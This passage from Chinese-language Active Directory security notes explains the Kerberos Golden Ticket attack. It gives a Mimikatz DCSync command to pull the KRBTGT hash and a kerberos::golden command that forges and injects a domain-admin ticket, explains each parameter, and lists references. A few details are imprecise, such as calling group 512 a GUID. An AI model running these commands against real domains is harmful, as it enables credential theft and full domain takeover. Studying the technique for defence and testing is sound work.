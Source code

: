 ### Golden ticket
KRBTGT 是 Kerberos 票證服務所使用的特殊帳戶，所有 TGT 都使用 KRBTGT 帳戶的金鑰加密，所以拿到 KRBTGT 帳戶的 NTLM hash，就可以用來生成偽造的 Kerberos 票證，也稱為金票。主要用於橫向。

這條 Mimikatz 的指令是嘗試從 AD 獲取 KRBTGT 帳戶的 hash。
:::info
lsadump::dcsync /user:DOMAIN\KRBTGT
:::

```
lsadump::dcsync：執行 DCSync 攻擊，從 DC 中同步帳戶資料。
/user:DOMAIN\KRBTGT：指定要同步的目標帳戶，這裡指的就是 Domain 的 KRBTGT 帳戶
```

這條 Mimikatz 的指令是做金票攻擊
:::info
kerberos::golden /User:<any-username-youwant> /domain:<domainname> /sid:<domainSID> /krbtgt:<krbtgt-ntlm-hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
:::
```

- kerberos::golden：用來創建 Golden Ticket。
- /User:<any-username-youwant>：指定 Golden Ticket 所要模擬的用戶名。通常會選擇高權限用戶。
- /domain:<domainname>：指定目標的域名，這是 DC 所屬的 Domain。
- /sid:<domainSID>：指定 Domain 的 SID（Security Identifier），這是每個 AD Domain 的唯一標識符。
- /krbtgt:<krbtgt-ntlm-hash>：它是生成 Golden Ticket 所必須的密鑰，是攻擊前需要先獲得的資訊。
- id:500：指定模擬的用戶 ID，500 是 Domain 管理員帳戶的預設 ID。
- /groups:512：指定群組，512 是 Domain 管理員群組的 GUID。
- /startoffset:0：表示票證從當前時間立即生效。
- /endin:600：表示票證有效期為 600 分鐘。
- /renewmax:10080：指定票證的最大續期時間，這設為 10080，即 7 天（10080 分鐘）。這讓攻擊者可以在長達 7 天的時間內使用這個票證。
- /ptt：這個選項代表 "Pass-the-Ticket"，把生成的 Golden Ticket 直接注入到當前的 Kerberos 身份驗證上下文中，繞過身份驗證。
```

    
## 參考
- [AD DS 簡介](https://learn.microsoft.com/zh-tw/training/modules/introduction-to-ad-ds/)
- [AD DS 網域服務](https://learn.microsoft.com/zh-tw/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)
- [Introduction of Active Directory Domain Services](https://www.geeksforgeeks.org/introduction-of-active-directory-domain-services/)
- [實作和管理 Active Directory 憑證服務](https://learn.microsoft.com/zh-tw/training/modules/implement-manage-active-directory-certificate-services/)
- [HackTheBox introduction-to-active-directory](https://academy.hackthebox.com/course/preview/introduction-to-active-directory)
- [HackTheBox active-directory-enumeration--attacks](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
- [AD_attack_defend_cheatshee](https://github.com/idnahacks/AD_attack_defend_cheatsheet/blob/main/README.md)
- [安全性識別碼](https://learn.microsoft.com/zh-tw/windows-server/identity/ad-ds/manage/understand-security-identifiers)
- [exploiting-misconfigured-active-directory-certificate-template-esc1](https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/)